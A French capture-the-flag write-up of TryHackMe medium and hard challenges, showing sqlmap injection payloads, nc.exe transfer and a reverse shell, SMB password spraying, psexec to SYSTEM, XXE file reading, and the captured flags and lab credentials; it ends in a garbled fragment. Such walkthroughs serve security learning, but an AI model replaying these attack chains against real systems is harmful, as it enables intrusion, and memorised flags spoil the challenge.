Le flag est : THM{78ab0f3ab9decf59899148c6ba7e07dc}   

La flag pour valider Agamemnon est : BACK2THM{74a73793ce5fe590815c37d72b919d6b}   


  

Sur la page h1-medium.thm on peut indiquer notre ping.   
On fait un essai on voit que cela fonctionne.  

   

On voit qu'il y a un paramètre id, regardons si on peut faire injection sql.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -r req.txt --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:32:24 /2021-10-07/

[17:32:24] [INFO] parsing HTTP request from 'req.txt'
[17:32:25] [INFO] testing connection to the target URL
[17:32:28] [INFO] checking if the target is protected by some kind of WAF/IPS
[17:32:32] [INFO] testing if the target URL content is stable
[17:32:35] [WARNING] target URL content is not stable (i.e. content differs). sqlmap will base the page comparison on a sequence matcher. If no dynamic nor injectable parameters are detected, or in case of junk results, refer to user's manual paragraph 'Page comparison'
how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] 
[17:32:38] [INFO] testing if GET parameter 'id' is dynamic
[17:32:38] [WARNING] GET parameter 'id' does not appear to be dynamic
[17:32:38] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[17:32:38] [INFO] testing for SQL injection on GET parameter 'id'
[17:32:39] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[17:32:42] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[17:32:46] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[17:32:48] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[17:32:49] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[17:32:49] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[17:32:52] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[17:32:55] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[17:32:55] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[17:32:55] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[17:32:55] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[17:32:55] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[17:32:55] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[17:32:59] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[17:32:59] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[17:32:59] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[17:32:59] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[17:32:59] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[17:32:59] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[17:33:02] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[17:33:02] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[17:33:02] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[17:33:02] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[17:33:02] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[17:33:02] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[17:33:03] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[17:33:03] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[17:33:03] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[17:33:03] [INFO] testing 'Generic inline queries'
[17:33:03] [INFO] testing 'MySQL inline queries'
[17:33:03] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[17:33:03] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)
[17:33:22] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable 
[17:33:22] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[17:33:42] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[17:33:42] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[17:33:42] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[17:33:46] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[17:33:49] [INFO] target URL appears to have 2 columns in query
[17:34:03] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=3 AND 3461=3461

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=3;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=3 AND (SELECT 2670 FROM (SELECT(SLEEP(5)))cnNG)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=-3125 UNION ALL SELECT NULL,CONCAT(0x7178786271,0x47714e556e5665584351506a666541677a6253744342634a66647a5669487955756f6e4d5963416f,0x71627a7a71)-- -
---
[17:34:10] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2019 or 2016 or 10
web application technology: PHP 7.1.29, Microsoft IIS 10.0
back-end DBMS: MySQL >= 5.0.12
[17:34:20] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[17:34:20] [INFO] fetching current database
[17:34:21] [INFO] fetching tables for database: 'networkmonitor'
[17:34:23] [INFO] fetching columns for table 'host' in database 'networkmonitor'
[17:34:27] [INFO] retrieved: 'id','int'
[17:34:27] [INFO] retrieved: 'ip','varchar(15)'
[17:34:27] [INFO] fetching entries for table 'host' in database 'networkmonitor'                                                                                                                                                             
Database: networkmonitor
Table: host
[1 entry]
+----+-------------+
| id | ip          |
+----+-------------+
| 3  | 10.9.228.66 |
+----+-------------+

[17:34:27] [INFO] table 'networkmonitor.host' dumped to CSV file '/home/tim/.local/share/sqlmap/output/h1-medium.thm/dump/networkmonitor/host.csv'
[17:34:27] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 57 times
[17:34:27] [INFO] fetched data logged to text files under '/home/tim/.local/share/sqlmap/output/h1-medium.thm'

[*] ending @ 17:34:27 /2021-10-07/
```

On remarque que l'on retrouve notre adresse dans la base de donnée.    

   

On injecte du code pour faire exécuter whoami.  
On a le nom du compte, donc l'injection fonctionne.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

On fait un serveur http pour transférer nc.exe.   

   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.160.174 - - [07/Oct/2021 17:54:25] "GET /nc.exe HTTP/1.1" 200 -
```

On transfert nc.exe sur notre machine cible.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

   


**What is the flag for the Helen user?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.160.174.
Ncat: Connection from 10.10.160.174:50251.
Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\helen\Desktop\WebApp\h1-tryhackme-medium-two-main\public>
C:\Users\helen\Desktop\WebApp\h1-tryhackme-medium-two-main\public>cd ../../../
cd ../../../

C:\Users\helen\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A4B7-5ACE

 Directory of C:\Users\helen\Desktop

19/02/2021  20:02    <DIR>          .
19/02/2021  20:02    <DIR>          ..
19/02/2021  19:48                37 flag.txt
19/02/2021  15:57    <DIR>          WebApp
               1 File(s)             37 bytes
               3 Dir(s)  11,553,579,008 bytes free

C:\Users\helen\Desktop>type flag.txt
type flag.txt
THM{fe71b156334f5ec0fbd6e9c3cee516ac}

```

On écoute sur le port 1234.   
On envoie une injection sql qui nous permet de faire un reverse shell.
Dans le bureau d'helen on lit le flag. 
Le flag est : THM{fe71b156334f5ec0fbd6e9c3cee516ac}    
Le flag pour helen est : BACK2THM{8aca8fc6b754fac32976d63fd8234933}  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ crackmapexec smb h1-medium.thm -u achilles -p /usr/share/wordlists/rockyou.txt 
SMB         10.10.160.174   445    TROY-DC          [*] Windows 10.0 Build 17763 x64 (name:TROY-DC) (domain:troy.thm) (signing:True) (SMBv1:False)
SMB         10.10.160.174   445    TROY-DC          [-] troy.thm\achilles:123456 STATUS_LOGON_FAILURE 
SMB         10.10.160.174   445    TROY-DC          [-] troy.thm\achilles:12345 STATUS_LOGON_FAILURE 
.....
SMB         10.10.160.174   445    TROY-DC          [-] troy.thm\achilles:astig STATUS_LOGON_FAILURE 
SMB         10.10.160.174   445    TROY-DC          [-] troy.thm\achilles:system STATUS_LOGON_FAILURE 
SMB         10.10.160.174   445    TROY-DC          [-] troy.thm\achilles:candyfloss STATUS_LOGON_FAILURE 
SMB         10.10.160.174   445    TROY-DC          [-] troy.thm\achilles:alondra STATUS_LOGON_FAILURE 
SMB         10.10.160.174   445    TROY-DC          [+] troy.thm\achilles:winniethepooh (Pwn3d!)
tim@kali:~/Bureau/tryhackme/write-up$ 
```

Avec crackmapexec on trouve le mot de passe d'achilles qui est : winniethepooh   

```bash
C:\Users\helen\Desktop>net user achilles
net user achilles
User name                    achilles
Full Name                    Achilles
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            19/02/2021 19:32:09
Password expires             Never
Password changeable          19/02/2021 19:32:09
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   07/10/2021 18:45:52

Logon hours allowed          All

Local Group Memberships      *Administrators       
Global Group memberships     *Domain Users         
The command completed successfully.
```

On voit que achilles appartient au groupe adminstrators on peut avoir un shell administrateur.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ psexec.py troy.thm/achilles:winniethepooh@h1-medium.thm
Impacket v0.9.23.dev1+20210315.121412.a16198c3 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on h1-medium.thm.....
[*] Found writable share ADMIN$
[*] Uploading file vuxhsIKb.exe
[*] Opening SVCManager on h1-medium.thm.....
[*] Creating service VVuo on h1-medium.thm.....
[*] Starting service VVuo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Avec psexec on obtient un shell avec les droits administrateur.   

```bash
C:\Users\achilles\Desktop>type flag.txt
THM{a95c530a7af5f492a74499e70578d150}
```

On va dans le bureau d'achilles et on lit le flag.   
Le flag est : THM{a95c530a7af5f492a74499e70578d150}   
Le flag pour valider achilles est : BACK2THM{7821a1388e6924629f3a5089caa80d75}  

```bash
C:\Users\hector\Desktop>type flag.txt
THM{a3256be7dfd50977a4aae6583babb884}
```

On va dans le bureau d'hector et on lit le flag.    
Le flag est : THM{a3256be7dfd50977a4aae6583babb884}
Le flag pour valider hector est : BACK2THM{90f5209e64d1efd0899cafbb5f1ff96c}   

```bash
C:\Users\patrocles\Desktop>type flag.txt
THM{ee4a601a75bc632e2c8cd2a32946c873}
```

On va dans le bureau de patrocles et on lit le flag.   
Le flag est : THM{ee4a601a75bc632e2c8cd2a32946c873}    
Le flag pour valider patrocles est : BACK2THM{1b6a55660d4f8981e8b7dd2fb1b48fd8}      

```bash
C:\Users\Administrator\Desktop>type flag.txt
THM{883f9bae55aaf77b01a3e133159e849e}
```

On va dans le bureau de l'Administrator et on lit le flag.    
Le flag est : THM{883f9bae55aaf77b01a3e133159e849e}    
Le flag pour valider patrocles est : BACK2THM{b68b666215db22ce0763928e796f98c0}      

## Task 5 Hard Challenge ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.174.91 h1-hard.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A h1-hard.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-07 20:17 CEST
Nmap scan report for h1-hard.thm (10.10.174.91)
Host is up (0.035s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:24:0c:d3:ed:c2:36:ce:6b:23:f6:1b:bc:48:de:1d (RSA)
|   256 e1:e6:f9:f9:e6:45:cf:b9:c5:eb:c5:4c:1a:59:b4:51 (ECDSA)
|_  256 e9:2f:8f:92:be:d9:7e:62:ef:34:02:b5:ba:ff:b2:31 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Server Manager Login
|_Requested resource was /login
81/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Page Not Found
82/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: I Love Hills - Home
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:93:9a:3f:4b:cc:77:91:e3:c4:e2:67:93:fb:98:79 (RSA)
|   256 00:f9:5e:65:86:74:d8:2d:e1:8d:62:f6:7d:be:a7:07 (ECDSA)
|_  256 01:a0:a5:3c:2e:5e:02:fe:f5:d2:8a:dd:4c:44:1a:2b (ED25519)
8888/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.0 Python/3.8.5
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
9999/tcp open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Thu, 07 Oct 2021 18:18:05 GMT
|     Content-Length: 0
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.91%I=7%D=10/7%Time=615F39DD%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,4B,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Thu,\x2007\x20Oct\x2020
SF:21\x2018:18:05\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,4
SF:B,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Thu,\x2007\x20Oct\x202021\x2018:1
SF:8:05\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(FourOhFourRequest,4B,"H
SF:TTP/1\.0\x20200\x20OK\r\nDate:\x20Thu,\x2007\x20Oct\x202021\x2018:18:05
SF:\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(GenericLines,67,"HTTP/1\.1\
SF:x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf
SF:-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-
SF:Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n40
SF:0\x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1\x2040
SF:0\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\
SF:nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/7%OT=22%CT=1%CU=34975%PV=Y%DS=2%DC=T%G=Y%TM=615F3A4
OS:1%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)SEQ
OS:(SP=102%GCD=1%ISR=107%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O
OS:3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=F4B3%W2=
OS:F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   32.61 ms 10.9.0.1
2   32.72 ms h1-hard.thm (10.10.174.91)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 127.20 seconds

```

D'arpès nmap on voit plusieurs services.  
Le service SSH sur les ports 22 et 2222.    
Le service HTTP sur les ports 80,81,82 et 8888.   
Un service inconnu sur le port 9999.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl h1-hard.thm:8888
Welcome to CMNatic's Application Launcher! You can launch applications by enumerting the /apps/ endpoint.
```

On voit sur dans le message on a le lien /apps/   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://h1-hard.thm:8888 -w /usr/share/dirb/wordlists/common.txt -q
/apps                 (Status: 200) [Size: 135]
/users                (Status: 200) [Size: 45] 
```

On énumère le site, on trouve users.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://h1-hard.thm:8888/apps
{"app1": {"name": "online file storage"}, "app2": {"name": "media player"}, "app3": {"name": "file sync"}, "app4": {"name": "/users"}}
```

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://h1-hard.thm:8888/users  
{"user": {"davelarkin": "totallysecurehuh"}}
```

Pour le lien users on trouve des identifiant qui sont : davelarkin:totallysecurehuh   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh davelarkin@h1-hard.thm -p 2222
The authenticity of host '[h1-hard.thm]:2222 ([10.10.174.91]:2222)' can't be established.
ECDSA key fingerprint is SHA256:D0vPRUo5EfUivVKiJf3i6JIOF50DxmKg/avxmu6bx4o.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[h1-hard.thm]:2222,[10.10.174.91]:2222' (ECDSA) to the list of known hosts.
davelarkin@h1-hard.thm's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-1037-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

davelarkin@a9ef0531077f:~$ 
```

**What is the flag for container4?**

Avec les identifiants on se connecte sur le service SSH sur le port 2222.    

```bash
davelarkin@a9ef0531077f:~$ ls
api  bin  container4_flag.txt
davelarkin@a9ef0531077f:~$ cat container4_flag.txt 
THM{831dbd19214cb7ed6eb3881f67b4734b}
davelarkin@a9ef0531077f:~$ 
```

On trouve un fichier container4_flag.txt et on le lit.   
Le flag est : THM{831dbd19214cb7ed6eb3881f67b4734b}    

  

Sur le port 80 on se retrouve avec un invite d'identification.
Après plusieurs essais, je n'arrive a rien.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://h1-hard.thm -w /usr/share/dirb/wordlists/common.txt -q
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/api                  (Status: 200) [Size: 136]
/login                (Status: 200) [Size: 1696]
/logout               (Status: 302) [Size: 0] [--> /login]
/server-status        (Status: 403) [Size: 276]           
/shell                (Status: 302) [Size: 0] [--> /login]
/specs                (Status: 302) [Size: 0] [--> /login]
```

Après énumération avec gobuster on trouve le lien api qui semble interéssante.
Le lien shell pourrait être un piste mais il faut être connecté.  

```json
tim@kali:~/Bureau/tryhackme/write-up$ curl -s http://h1-hard.thm/api | jq
{
  "name": "Server Manager",
  "stack": {
    "nginx": "Apache/2.4.41 (Ubuntu)",
    "php": "7.4.3",
    "mysql": {
      "version": "5.6",
      "database": "servermanager"
    }
  }
}
```

On regarde le contenu de l'api mais il y a pas grand chose.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://h1-hard.thm/api -w /usr/share/dirb/wordlists/common.txt -q
/user                 (Status: 401) [Size: 52]

tim@kali:~/Bureau/tryhackme/write-up$ curl -s http://h1-hard.thm/api/user/
{"error":"You do not have access to view all users"}
```

On trouve un lien utilisateur, mais j'ai pas le droit le lister.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://h1-hard.thm/api/user -w /usr/share/dirb/wordlists/common.txt -q
/login                (Status: 200) [Size: 53]
/session              (Status: 200) [Size: 91]
```

On trouve une section session.   

  

Avec burp on modifie la requète avec ?xml pour voire si on peut exploiter la faille xxe.    

  

On voit que l'injection fonction sur api/user, on peut lire le fichier /etc/passwd.   

  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'PD9waHAKaW5jbHVkZV9vbmNlKCcuLi9BdXRvbG9hZC5waHAnKTsKaW5jbHVkZV9vbmNlKCcuLi9Sb3V0ZS5waHAnKTsKaW5jbHVkZV9vbmNlKCcuLi9PdXRwdXQucGhwJyk7CmluY2x1ZGVfb25jZSgnLi4vVmlldy5waHAnKTsKClJvdXRlOjpsb2FkKCk7ClJvdXRlOjpydW4oKTs=' | base64 -d
<?php
include_once('../Autoload.php');
include_once('../Route.php');
include_once('../Output.php');
include_once('../View.php');

Route::load();
Route::run();
```

On récupère le contenu de index.php, on voit plusieurs liens qui pointent sur des fichiers.    

  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo 'PD9waHAKCmlmKCFmdW5jdGlvbl9leGlzdHMoJ2NsYXNzQXV0b0xvYWRlcicpKXsKICAgIGZ1bmN0aW9uIGNsYXNzQXV0b0xvYWRlcigkY2xhc3MpewogICAgICAgICRwYXJ0cyA9IGV4cGxvZGUoJ1xcJywgJGNsYXNzKTsKICAgICAgICBpZiggY291bnQoJHBhcnRzKSA9PSAyICl7CiAgICAgICAgICAgIGlmKCAkcGFydHNbMF0gPT0gJ01vZGVsJyB8fCAkcGFydHNbMF0gPT0gJ0NvbnRyb2xsZXInICl7CiAgICAgICAgICAgICAgICAkZGlyID0gKCAkcGFydHNbMF0gPT0gJ01vZGVsJyApID8gJ21vZGVscycgOiAnY29udHJvbGxlcnMnOwogICAgICAgICAgICAgICAgaWYoIGlzX2ZpbGUoJy4uLycuJGRpci4nLycuJHBhcnRzWzFdLicucGhwJykgKXsKICAgICAgICAgICAgICAgICAgICBpZiggIWNsYXNzX2V4aXN0cygkY2xhc3MpICkgewogICAgICAgICAgICAgICAgICAgICAgICBpbmNsdWRlX29uY2UoJy4uLycuJGRpci4nLycuJHBhcnRzWzFdLicucGhwJyk7CiAgICAgICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgfQogICAgfQp9CgpzcGxfYXV0b2xvYWRfcmVnaXN0ZXIoJ2NsYXNzQXV0b0xvYWRlcicpOw==' | base64 -d
<?php

if(!function_exists('classAutoLoader')){
    function classAutoLoader($class){
        $parts = explode('\\', $class);
        if( count($parts) == 2 ){
            if( $parts[0] == 'Model' || $parts[0] == 'Controller' ){
                $dir = ( $parts[0] == 'Model' ) ? 'models' : 'controllers';
                if( is_file('../'.$dir.'/'.$parts[1].'.php') ){
                    if( !class_exists($class) ) {
                        include_once('../'.$dir.'/'.$parts[1].'.php');
                    }
                }
            }
        }
    }
}

spl_autoload_register('classAutoLoader');
```

Dans Autoload.php on remrarque un nouveau repértoire qui controllers, le probleme on connait l'extension du fichier mais pas les noms de fichiers dans controllers.  


  
  
  
  
 

Avec bssh davelarkin@IP -p 2222e](./Task5-11.png) 

```bash
